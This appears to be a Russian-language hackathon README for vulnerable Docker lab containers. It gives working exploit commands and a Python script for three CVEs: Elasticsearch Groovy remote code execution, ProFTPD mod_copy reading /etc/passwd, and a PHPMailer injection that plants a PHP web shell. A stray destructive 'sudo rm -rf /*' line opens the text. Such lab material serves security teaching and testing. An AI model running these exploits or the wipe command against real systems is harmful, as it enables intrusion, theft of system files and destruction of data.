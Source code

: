 sudo rm -rf /*
===
---
Использованная ОС: kali linux 
Использованная версия docker: 18.09.1 

CVE-2015-1427
===
ElasticSearch Groovy RCE
контейнер: bash/cve-2015-1427.sh
Краткое описание уязвимости: Механизм сценариев Groovy в Elasticsearch до 1.3.8 и 1.4.x до 1.4.3 позволяет удаленным пользователям обходить механизм защиты песочницы и выполнять произвольные команды оболочки с помощью созданного сценария.
Эксплоиты:
Выполнить в терминале
```bash
curl -s http://localhost:9200/_search\?pretty -XPOST -d '{"script_fields": {"myscript": {"script": "java.lang.Math.class.forName(\"java.lang.Runtime\").getRuntime().exec(\"whoami\").getText()"}}}'
```

Python вариант:
Создать файл с кодом ниже и запустить его
```python
import requests
host = 'http://localhost:9200/'
payload1 = '{"size":1, "script_fields": {"myscript":{"script": "java.lang.Math.class.forName(\\"java.lang.Runtime\\").getRuntime().exec(\\"whoami\\").getText()"}}}'

print('exploiting cve-2015-1427 (Container security hackaton)')
req = requests.post(host + '_search?pretty', data=payload1)
print(req.text)
```

В рез-те выполнения нам вернётся результат выполнения команды whoami (а именно root)
Видео: https://youtu.be/W0lYqvhi0iw

CVE-2015-3306
===
контейнер: bash/CVE-2015-3306.sh 
Краткое описание уязвимости: Модуль mod_copy в ProFTPD 1.3.5 позволяет чиать и записывать произвольные файлы через команды site cpfr и site cpto
Описание эксплойта: в рез-те выполнения эксплойта создаётся файл passwd, содержащий содержимое файла /etc/passwd

Экспоит:
nano exploit.sh
```bash
#!/bin/bash

nc localhost 21 <<EOF
SITE CPFR /etc/passwd
SITE CPTO /var/www/html/passwd
EOF
```
chmod +x ./exploit.sh
./exploit.sh
откройте страницу http://localhost/passwd

Видео: https://youtu.be/IYNk7QcGbWE



CVE-2016-10033
===
PHPMail Remote Code Execution
контейнер: bash/CVE-2016-10033.sh 
Краткое описание уязвимости: В PHPMailer до версии 5.2.18 существовала уязвимость, приводящая к уязвимости типа Remote Code Execution. Из-за недостаточной фильтрации символов \' в поле "sender" злоумышленник мог внедрить вредоносный код.
Описание эксплойта: в рез-те выполнения эксплойта создаётся файл shell.php, позволяющий выполнить произвольный код на сервере при помощи параметра cmd.
Экспоит
```bash
curl -sq 'http://localhost:8383' -H 'Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryzXJpHSq4mNy35tHe' --data-binary $'------WebKitFormBoundaryzXJpHSq4mNy35tHe\r\nContent-Disposition: form-data; name="action"\r\n\r\nsubmit\r\n------WebKitFormBoundaryzXJpHSq4mNy35tHe\r\nContent-Disposition: form-data; name="name"\r\n\r\n<?php echo \"Shell\";system($_GET[\'cmd\']); ?>\r\n------WebKitFormBoundaryzXJpHSq4mNy35tHe\r\nContent-Disposition: form-data; name="email"\r\n\r\n\"floppa\\\" -OQueueDirectory=/tmp -X/www/shell.php server\" @test.test\r\n------WebKitFormBoundaryzXJpHSq4mNy35tHe\r\nContent-Disposition: form-data; name="message"\r\n\r\nxD\r\n------WebKitFormBoundaryzXJpHSq4mNy35tHe--\r\n'
```
Видео: https://youtu.be/fwLJwSejeNQ





